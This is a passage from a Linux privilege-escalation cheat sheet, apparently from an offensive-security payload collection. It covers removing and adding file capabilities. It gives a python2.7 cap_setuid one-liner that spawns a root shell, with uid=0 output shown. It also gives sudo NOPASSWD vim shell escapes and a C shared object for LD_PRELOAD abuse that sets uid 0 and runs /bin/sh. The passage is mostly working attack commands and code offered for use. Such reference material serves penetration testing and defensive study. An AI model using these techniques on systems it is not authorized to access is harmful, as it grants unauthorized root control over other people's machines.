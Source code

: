 ### Edit capabilities

    /usr/bin/setcap -r /bin/ping            # remove
    /usr/bin/setcap cap_net_raw+p /bin/ping # add

### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.

    $ getcap openssl /usr/bin/openssl 
    openssl=ep

Alternatively the following capabilities can be used in order to upgrade your current privileges.

    cap_dac_read_search # read anything
    cap_setuid+ep # setuid

Example of privilege escalation with `cap_setuid+ep`

    $ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7
    
    $ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    sh-5.0# id
    uid=0(root) gid=1000(swissky)

[Untitled](Linux%20Privilege%20Escalation/Untitled%20Database.csv)

## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO_KILLER)

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

    $ sudo -l
    
    User demo may run the following commands on crashlab:
        (root) NOPASSWD: /usr/bin/vim

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

    sudo vim -c '!sh'
    sudo -u root vim -c '!sh'

### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

    Defaults        env_keep += LD_PRELOAD

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
    	unsetenv("LD_PRELOAD");
    	setgid(0);
    	setuid(0);
    	system("/bin/sh");
    }
